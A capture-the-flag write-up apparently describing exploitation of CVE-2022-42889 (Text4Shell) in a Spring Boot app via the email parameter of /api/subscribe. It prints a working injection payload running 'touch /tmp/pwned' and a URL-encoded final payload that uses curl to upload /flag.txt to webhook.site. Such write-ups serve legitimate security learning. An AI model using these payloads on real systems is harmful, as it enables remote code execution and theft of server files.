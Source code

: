 # Subscribe For More

`#Web`



## Solution

` Recon Part`

The goal was to get the flag from the server. The challenge was given with a source file, open the pom.xml file and if you were familiar with recent CVE's then you've noticed that a libary called `commons-text` were there . </br>



![alt text](https://i.imgur.com/LyQmihs.png)


Then lets google the libary for vulnerability.


![alt text](https://i.imgur.com/vjbusG0.png)
![alt text](https://i.imgur.com/ge5MUY3.png)

so we got our CVE no and name the only part left is to go to github and search for public exploit code or payloads.

Then we move to main applicaion code which is in `src > main > java > com > example > sprigboot > Textcontroller.java`

![alt text](https://i.imgur.com/1AGNNJN.png)

if we look close we will find an endpoint /api/subscribe and takes an input with paramitter name email

now we have our CVE and one endpoint which we can send our user controlled data which is our payload

## 

` Exploitation Part`


so now that we have our targeted endpint and cve goto burp and capture the request `https://target.com/api/subscribe?email=blabla` , we can see the it returned with a 200 response containig  ``{"message": "your email has been subscribed"}``

which tells us that our endpoint is working fine now time to attack 

get a payload of CVE-2022-42889 AKA Text4Shell , I took `${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/pwned')}` this one with creating a pwned file in /tmp directory 

fire and see . no response now what we can do is simply chec if command is working or not . for this we can curl a webhook site.

![alt text](https://i.imgur.com/HwcQ8JW.png)

![alt text](https://i.imgur.com/6qjfgaq.png)

we can see it's working , a requst from the server.. and form the file structre of the zip there is a flag file root of the directory .. now wee only need to get the flag through the curl .

for that we'll send a PUT request to webhook url. 


so the final payload should look like this with url-encode:

```
%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27curl%20-T%20%2fflag.txt%20https%3a%2f%2fwebhook.site%27)%7D
```

after sending the request we'll gonna be loking into webhook site we'll see a put request containing our flag.


![alt text](https://i.imgur.com/nvyH32Q.png)



That's it..
